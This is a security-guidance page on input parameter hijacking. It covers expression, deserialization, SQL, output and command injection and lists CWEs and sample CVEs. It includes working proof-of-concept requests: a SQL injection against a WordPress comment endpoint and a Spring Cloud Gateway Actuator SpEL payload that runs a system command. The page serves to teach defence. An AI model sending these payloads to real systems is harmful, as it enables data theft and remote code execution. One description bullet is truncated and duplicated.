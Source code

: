 # Input Parameter Hijacking

## Overview

In complex applications, business actions often translate into technical operations - evaluating expressions, constructing
queries, formatting outputs, or invoking system commands.

When untrusted input flows into these operations without strict
validation or context checks, attackers can manipulate core processes, execute arbitrary code, or extract confidential data,
undermining both functional integrity and security at the business-logic level.

## Description

These weaknesses stem from failing to isolate user input from sensitive operations, enabling exploits such as:

* **Unsafe Expression Handling:** Allowing dynamic expressions (e.g., OGNL or SpEL) to be parsed and executed leads to remote
code execution when user-controlled data is treated as executable logic.

* **Insecure Deserialization:** Feeding attacker-crafted serialized payloads into deserialization routines within REST endpoints
can trigger execution of arbitrary code.

* **Improper Query Construction:** Embedding unchecked input directly into SQL or JSON-based queries without parameterization
permits attackers to alter or extract data illicitly.

* **Unsanitized Output:** Including raw user data in API responses or templates without neutralizing special characters
can enable cross-site scripting or other injection attacks when that data is rendered client-side.

* **Command Invocation Flaws:** Concatenating user input into OS command strings and executing them exposes systems to command
injection, letting attackers execute arbitrary shell commands.

* **Unexpected values:** Feeding attacker-crafted serialized payloads

## Examples

### Scenario #1: SQL Injection in Wordpress

The `order` parameter in a comment-retrieval endpoint was directly embedded in SQL without sanitization. This allows attackers
to extract sensitive database fields unauthenticated using SQL queries injected through the order parameter.

The attack is reproducible with a simple API call:
```
GET /wp-json/watch-life-net/v1/comment/getcomments?order=DESC,(SELECT user_login FROM wp_users)&postid=1
```

### Scenario #2: RCE via SpEL expressions

Exposed and unsecured Actuator routes endpoint allowed SpEL expressions in route definitions. This enables attackers to
inject arbitrary OS commands via SpEL, compromising microservices:

1. Inject malicious route
```shell
POST /actuator/gateway/routes/test HTTP/1.1
{
    "id":"test",
    "filters": [
        {
            "name": "AddResponseHeader",
            "args": {
                "name": "Result",
                "value": "#{T(java.lang.Runtime).getRuntime().exec('id')}"
            }
        }
    ]
}
```

2. Refresh routes to execute SpEL:
```shell
POST /actuator/gateway/refresh
```

3. Retrieve execution result:
```shell
GET /actuator/gateway/routes/test
```

## Mapped CWEs
- CWE-94
- CWE-913
- CWE-74
- CWE-78

## Sample CVEs
- CVE-2022-26134
- CVE-2022-22947
- CVE-2017-9805
- CVE-2024-8484